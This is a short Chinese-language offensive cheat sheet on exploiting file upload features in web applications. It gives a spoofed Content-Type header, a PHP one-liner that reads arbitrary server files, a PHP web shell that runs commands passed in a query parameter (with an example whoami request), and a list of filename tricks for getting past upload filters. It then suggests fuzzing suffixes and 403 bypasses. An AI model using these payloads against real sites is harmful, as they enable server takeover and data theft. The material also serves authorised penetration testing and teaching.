 # 文件上传

图片上传处可能存在文件上传，可根据上传的图片得到上传文件所在路径

某些文件上传只校验 `Content-Type` 标头是否与预期的 MIME 类型匹配，可以伪造

```
Content-Type: image/jpeg
```

以下 PHP 单行代码可用于从服务器的文件系统读取任意文件：

```
<?php echo file_get_contents('/path/to/target/file'); ?>
```

上传后，发送对此恶意文件的请求将在响应中返回目标文件的内容。

更通用的 Web shell 可能如下所示：

```
<?php echo system($_GET['command']); ?>
```

该脚本使您能够通过查询参数传递任意系统命令，如下所示：

```
 GET /example/exploit.php?command=whoami HTTP/1.1
```

## 绕过

```
filename="shell.php"

filename="shell.php

filename=shell.php"

filename="shell.phhtml"

filename="shell.p
h
p"

filename="shell.php3"

filename="shell.php5"

filename="shell.php6"

filename="shell.php6";filename="shell.php6";

filename="xxxxxxxxxxxxxxxxxxxxxxxxxshell.php"

filename="shell.php::$DATA"(windows 专用)

filename="shell.pHP"

filename="shell.jpg";filename="shell.jpg";filename="shell.jpg";filename="shell.jpg";filename="shell.jpg";filename="shell.jpg";filename="shell.jpg";filename="shell.jpg";filename="shell.jpg";filename="shell.php";

```

可用 intruder 爆破后缀(fuzz)

403 bypass 也可以 fuzz
